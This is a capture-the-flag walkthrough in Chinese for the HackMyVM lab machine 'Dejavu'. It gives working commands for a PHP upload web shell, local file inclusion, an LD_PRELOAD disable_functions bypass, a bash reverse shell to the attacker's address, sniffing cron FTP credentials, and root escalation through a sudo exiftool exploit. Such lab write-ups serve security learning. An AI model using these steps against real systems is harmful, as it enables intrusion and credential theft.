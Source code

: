 # Dejavu

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Dejavu

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web ，gobuster 发现 http://192.168.5.39/info.php 是一个 phpinfo 页面，查看其源码，发现注释：/S3cR3t，访问后是一个文件上传页面 http://192.168.5.39/S3cR3t/upload.php

可能有任意文件上传漏洞，进行尝试，上传图片，发现上传后的图片出现在同目录 files 中 http://192.168.5.39/S3cR3t/files/1.png

发现上传后缀名为 php3、php4、php5、.htaccess 等都不行，但是 phtml 的后缀可以上传。在 http://192.168.5.39/info.php 中查看到 disable_functions 把基本的命令执行参数禁用了。

尝试将上传的内容改成 `<?php include($_GET[1]);?>` 发现可以执行 LFI，并且在 info.php 中显示了 info 文件的路径: `/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php`, 使用 filter 进行读取：

```
curl -O- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php

# base64 解码后为
<html>
<body>
<!-- /S3cR3t -->
</body>
</html>
<?php
phpinfo();
?>
```

```
curl -o- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/upload.php | base64 -d

<?php
  if(!empty($_FILES['uploaded_file']))
  {
    $path = "files/";
    $path = $path . basename( $_FILES['uploaded_file']['name']);
    $imageFileType = strtolower(pathinfo($path,PATHINFO_EXTENSION));
    $uploadOk = 1;
    // Allow certain file formats
    if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif" && $imageFileType != "txt" && $imageFileType != "phtml" && $imageFileType != "aspx") {
      echo nl2br("\nThis extension is not allowed.");
    $uploadOk = 0;
    }
    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
      echo " Sorry, your file was not uploaded.";
    // if everything is ok, try to upload file
    } else {
      if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
        echo nl2br("\nThe file ".  basename( $_FILES['uploaded_file']['name']). " has been uploaded.");
      } else{
          echo "There was an error uploading the file, please try again!";
      }
    }
  }
?>
```

经过查询，发现未禁用 putenv 和 mail 函数，则可以利用 LD_PRELOAD 绕过 disable_functions，有现成的利用工具进行利用 https://github.com/kriss-u/chankro-py3 下载后执行:

```
echo '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1' > 8888.sh
python3 chankro-py3-master/chankro.py --arch 64 --input 8888.sh --output shell.phtml --path /var/www/html
```

然后将生成的 shell.phtml 上传，在 kali 上建立 8888 监听，然后访问 http://192.168.5.39/S3cR3t/files/shell.phtml 就得到了反弹的链接:

```
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

得到 shell 后，sudo -l 发现: (robert) NOPASSWD: /usr/sbin/tcpdump 尝试用它提权到 robert，但是不成功，出现报错：

```
COMMAND='/bin/bash';TF=$(mktemp);echo "$COMMAND" > $TF;chmod +x $TF
sudo -u robert /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

ss -tnlp 发现本地启用了 21 ftp，看看里面有什么，匿名无法登陆，同时在 robet 家目录下，发现一个 auth.sh 文件，但是无法查看其内容，看名字像是跟认证有关系，那就尝试用 tcpdump 监听下 21 端口，看看会不会有显示：

```
cd /tmp
tcpdump -i lo port ftp

1分钟后显示：
FTP: USER robert
FTP: PASS 9737bo0hFx4
```

应该是一个定时任务，在一直访问 21 端口。使用得到的 robert 凭据，尝试登陆 ssh，看是否有密码复用的情况：

```
ssh robert@192.168.5.39 输入密码: 9737bo0hFx4
```

得到了 user flag：

```
robert@dejavu:~$ cat user.txt
HMV{c8b75037150fbdc49f6c941b72db0d7c}
```

这里 auth.sh 确实是定时在执行：

```
crontab -l
* *	* * *	/home/robert/auth.sh

robert@dejavu:~$ cat auth.sh
ftp -n localhost <<FIN
quote USER robert
quote PASS 9737bo0hFx4
bye
FIN
```

sudo -l 发现: (root) NOPASSWD: /usr/local/bin/exiftool GTFOBin 中显示可以读取文件，但是不知道 root 目录中的 root.txt 的具体名字，下面的读取方法不对：

```
sudo exiftool -filename=/tmp/root.txt /root/root.txt
```

搜索 exiftool 有没有其他的漏洞可以利用，找到 https://github.com/convisolabs/CVE-2021-22204-exiftool 下载其中的 python 脚本 https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py 到目标机器上，然后修改其中的 Ip 和 port 为 kali 上的监听端口，然后执行：

```
cd /tmp
python3 exp.py
sudo exiftool -u root exiftool ./exploit.djvu
```

在反弹的链接上得到了 root 权限：

```
# cat r0ot.tXt
HMV{c62d75d636f66450980dca2c4a3457d8}
```
